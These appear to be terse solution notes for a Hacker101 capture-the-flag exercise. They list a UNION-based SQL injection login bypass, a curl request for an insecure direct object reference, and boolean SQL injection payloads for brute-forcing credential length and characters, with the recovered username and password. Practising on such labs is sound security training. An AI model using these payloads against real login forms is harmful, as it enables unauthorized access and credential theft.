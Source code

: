 FLAG1 (SQLI)
/page/3 403
username: admin ' UNION SELECT 'x' AS password FROM admins WHERE '1' = '1
password: x

FLAG2 (IDOR)
curl -v -X POST https://4a21f259872b8aa6429dd5cb2dd8c0dd.ctf.hacker101.com/page/edit/1

FLAG3 (BRUTEFORCE)
//to find the length of the credentials
' or LENGTH(username)=1#
' or LENGTH(password)=1#
//to find what are the credentials, char per char
admin ' or username LIKE '§_§§_§§_§§_§§_§§_§'#
admin ' or password LIKE '§_§§_§§_§§_§§_§§_§'#
username=5	colby
password=6	delmar